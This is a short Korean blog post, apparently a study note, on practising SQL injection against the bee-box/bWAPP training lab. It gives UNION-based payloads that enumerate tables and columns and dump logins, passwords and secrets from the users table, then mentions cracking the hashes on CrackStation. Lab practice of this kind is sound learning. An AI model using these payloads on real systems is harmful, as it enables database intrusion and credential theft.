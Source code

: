 ```yaml
---
title:  "Bee Box 실습"
excerpt: "Bee Box에서 SQL Injection 실습"

categories: web-security
tags:
  - [bee-box, sql-injection]

toc: true
toc_sticky: true
 
date: 2022-05-11-00:01
last_modified_at: 2022-05-11-00:02
---
```


#### Bee Box SQL Injection
* * *
- sql injection 탭에서 
- e' union select null,null,null,table_name,null,null,null from information_schema.tables where table_schema = 'bWAPP' #

![](../../assets/images/20220523-100826.png){: .center}

- e' union select null,null,null,column_name,null,null,null from information_schema.columns where table_name='users' and table_schema='bWAPP' #

![](../../assets/images/20220523-100846.png){: .center}

- e' union select id, login,password,email,secret,null,null from bWAPP.users #

![](../../assets/images/20220523-100901.png){: .center}

- crackstation 에서 해쉬 크랙

![](../../assets/images/20220523-100926.png){: .center}
